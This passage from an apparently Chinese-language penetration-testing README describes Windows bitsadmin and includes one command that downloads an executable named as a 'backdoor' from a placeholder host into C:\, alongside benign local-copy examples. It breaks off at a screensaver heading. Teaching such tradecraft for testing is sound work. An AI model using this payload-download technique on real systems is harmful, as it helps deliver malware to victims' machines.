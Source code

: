![image-20220308185838423](README/image-20220308185838423.png)

### 0x8.Bitsadmin

>   [BITSAdmin的介绍与Windows渗透测试中的使用](https://toutiao.io/posts/bcz5e1o/preview)
>
>   [bitsadmin一句话下载payload](https://micro8.gitbook.io/micro8/contents-1/41-50/41bitsadmin-yi-ju-hua-xia-zai-payload)

>   Windows操作系统包含各种实用程序，系统管理员可以使用它们来执行各种任务。这些实用程序之一是后台智能传输服务（BITS），它可以促进文件到Web服务器（HTTP）和共享文件夹（SMB）的传输能力。Microsoft提供了一个名为“ bitsadmin ” 的二进制文件和PowerShell cmdlet，用于创建和管理文件传输。

window7以上自带：`c:\windows\system32\bitsadmin.exe`

使用功能transfer参数下载

```
.\bitsadmin.exe /transfer backdoor "http://sssssssss/CM.EXE" C:\1.exe
```

复制本地文件：

BITSAdmin遵循文件传输的原则。因此，可以将其用作复制和粘贴命令。这意味着BITSAdmin也能将同一台计算机上的一个位置传输到另一个位置。

```sh
bitsadmin /create whitehat_day #创建一个whitehat_day的任务。
#使用/addfile参数将传输文件添加到whitehat_day任务中，并声明传输的文件名与路径，和保存位置与名称
bitsadmin /addfile whitehat_day d:\file.txt d:\testfile.txt
bitsadmin /resume whitehat_day#使用/resume参数来开启传输。
bitsadmin /complete whitehat_day#以临时文件的形式传输文件。要获取完整的文件，需要使用/complete参数
Get-ChildItem -Path d:\  #查看目标路径下是否存在file.txt
```

### 0x9.屏幕保护程序
